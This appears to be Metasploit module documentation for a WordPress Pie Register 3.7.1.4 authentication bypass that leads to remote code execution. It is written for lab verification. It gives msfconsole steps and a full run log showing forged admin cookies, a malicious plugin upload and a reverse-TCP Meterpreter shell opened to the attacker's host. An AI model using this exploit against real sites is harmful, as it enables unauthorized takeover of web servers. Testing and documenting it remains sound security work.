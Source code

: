 ## Vulnerable Application

Download [pie-register.3.7.1.4.zip](https://downloads.wordpress.org/plugin/pie-register.3.7.1.4.zip).
Install and activate it.  No additional configuration is required.

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/unix/webapp/wp_pie_register_bypass_rce`
1. Do: `set rhosts [IP]`
1. Do: `run`
1. You should get a shell.

## Options

### USERID

The `USERID` of a valid user to generate a cookie for.  Should be an admin user.  Defaults to `1`.

## Scenarios

### Wordpress 5.4.4 with Pie Register 3.7.1.4

```
resource (pie_register.rb)> use wp_pie_register_bypass_rce
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp

Matching Modules
================

   #  Name                                            Disclosure Date  Rank       Check  Description
   -  ----                                            ---------------  ----       -----  -----------
   0  exploit/unix/webapp/wp_pie_register_bypass_rce  2021-10-08       excellent  Yes    WordPress Plugin Pie Register Auth Bypass to RCE


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/webapp/wp_pie_register_bypass_rce

[*] Using exploit/unix/webapp/wp_pie_register_bypass_rce
resource (pie_register.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (pie_register.rb)> set lhost 2.2.2.2
lhost => 2.2.2.2
resource (pie_register.rb)> set verbose true
verbose => true
resource (pie_register.rb)> run
[*] Started reverse TCP handler on 2.2.2.2:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking /wp-content/plugins/pie-register/readme.txt
[*] Found version 3.7.1.4 in the plugin
[+] The target appears to be vulnerable.
[*] Bypassing Authentiation
[*] Found cookie: wordpress_d2959e58288b6133e71de74309fcabfb=admin%7C1634151373%7C5hPhXSogmfTkj7p0WsuFUNe8moVYT6z8ZTcFLffuCVE%7Cac034a6841edfa4d49e5ab75cb37b69f52a8a92bcf9ad335bd4ad77d287b5349
[*] Found cookie: wordpress_d2959e58288b6133e71de74309fcabfb=admin%7C1634151373%7C5hPhXSogmfTkj7p0WsuFUNe8moVYT6z8ZTcFLffuCVE%7Cac034a6841edfa4d49e5ab75cb37b69f52a8a92bcf9ad335bd4ad77d287b5349
[*] Found cookie: wordpress_logged_in_d2959e58288b6133e71de74309fcabfb=admin%7C1634151373%7C5hPhXSogmfTkj7p0WsuFUNe8moVYT6z8ZTcFLffuCVE%7C3f79f2326314d81da1e4fd4dd8b29a30a1666c8b6378ca719377cf0fd4e6dfff
[*] Preparing payload...
[*] Uploading payload...
[*] Acquired a plugin upload nonce: 04f6142d66
[*] Uploaded plugin iQujVpTJNo
[*] Executing the payload at /wp-content/plugins/iQujVpTJNo/pZtgbKCrHr.php...
[*] Sending stage (39282 bytes) to 1.1.1.1
[+] Deleted pZtgbKCrHr.php
[+] Deleted iQujVpTJNo.php
[+] Deleted ../iQujVpTJNo
[*] Meterpreter session 1 opened (2.2.2.2:4444 -> 1.1.1.1:51748 ) at 2021-10-11 15:16:27 -0400

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : wordpress2004
OS          : Linux wordpress2004 5.4.0-52-generic #57-Ubuntu SMP Thu Oct 15 10:57:00 UTC 2020 x86_64
Meterpreter : php/linux
```
